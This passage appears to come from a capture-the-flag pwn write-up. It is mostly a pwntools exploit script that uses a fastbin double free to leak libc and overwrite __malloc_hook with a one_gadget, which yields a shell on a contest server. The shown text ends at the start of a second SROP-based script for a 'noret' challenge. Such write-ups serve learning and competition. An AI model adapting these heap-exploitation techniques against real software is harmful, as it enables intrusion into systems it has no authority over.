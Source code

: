 ```Python
name += flat([
    0, 0x71
])
p.sendlineafter("> ", name)
add(0x60, b"0" * 0x20)#0
add(0x60, b"1" * 0x20)#1
add(0x60, b"2" * 0x20)#2
free(0)
free(1)
free(0)
add(0x60, p64(bss_name + 0xc0))#3
add(0x60, b"4" * 0x20)#4
add(0x60, b'5' * 0x20)#5
add(0x60, p64(0xdeadbeef) + p64(0) + p64(0x6020d0))#6
free(0)
change(b'a' * 0xf + b'b')
p.recvuntil(b'ab')
main_arena = u64(p.recv(6) + b'\x00\x00')
log.success(f"main_arena: {hex(main_arena)}")
__malloc_hook = main_arena - 0x68
log.success(f"__malloc_hook: {hex(__malloc_hook)}")
libc_base = __malloc_hook - libc.symbols['__malloc_hook']
log.success(f"libc_base: {hex(libc_base)}")
# change(p64(0) + p64(0x91) + p64(0) + p64(libc_base + 0x3c67f8 - 0x10))
#add(0x80, p64(0xdeadbeef))#7
free(3)
free(4)
free(3)
add(0x60, p64(__malloc_hook - 0x23))#8
log.info(f"fake_fast: {hex(__malloc_hook - 0x23)}")
add(0x60, b"9" * 0x20)#9
add(0x60, b"a" * 0x20)#10
gadgets = [0x4527a, 0xf03a4, 0xf1247]
ogg = libc_base + gadgets[2]
debug()
add(0x60, b"b" * 0x13 + p64(ogg))#11
choose(1)
p.recvuntil("> ")
p.sendline(b'32')

p.interactive()
```

# Noret

没有ret，可以找到控制点，构造SROP即可

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
local = False
elf_path = './noret'
libc_path = './'
if local:
    p = process(elf_path)
    # gdb.attach(p, 'b main')
else:
    ip, port = "node1.tgctf.woooo.tech:31194".split(":")
    p = remote(ip, port)

def debug():
    if local:
```